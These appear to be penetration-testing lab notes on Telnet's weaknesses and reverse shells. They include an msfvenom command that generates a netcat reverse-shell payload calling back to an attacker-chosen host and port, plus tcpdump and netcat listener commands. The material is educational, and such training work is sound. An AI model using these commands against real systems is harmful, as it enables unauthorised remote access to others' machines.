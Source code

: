 ### Telnet
Telnet is an application protocol which allows you, with the use of a telnet client, to connect to and execute commands on a remote machine that's hosting a telnet server.  
The telnet client will establish a connection with the server. The client will then become a virtual terminal- allowing you to interact with the remote host.

You can connect to a telnet server with the following syntax: `telnet [ip] [port]`

#### Exploiting telnet
It lacks encryption, so sends all communication over plaintext, and for the most part has poor access control. There are CVE's for Telnet client and server systems.


**What is a Reverse Shell?**

**![](https://i.imgur.com/EUC7VS6.png)**

A **"shell"** can simply be described as a piece of code or program which can be used to gain code or command execution on a device.
A reverse shell is a type of shell in which the target machine communicates back to the attacking machine.
The attacking machine has a listening port, on which it receives the connection, resulting in code or command execution being achieved.

- `sudo tcpdump ip proto \\icmp -i tun0` This starts a tcpdump listener, specifically listening for ICMP traffic, which pings operate on.

#### msfvenom
It is a command-line tool within the Metasploit Framework used for generating payloads. These payloads are often used in penetration testing, exploit development, and creating malware for various security-related purposes.
  
Generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. Here's the syntax:  
		`msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R`
-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format


The command `nc -lvp 4444` starts a Netcat listener on port 4444, listening for incoming connections.
- `-l`: Tells Netcat to listen for incoming connections.
- `-v`: Enables verbose mode, which displays more information about incoming connections.
- `-p 4444`: Specifies the port number to listen on (in this case, port 4444).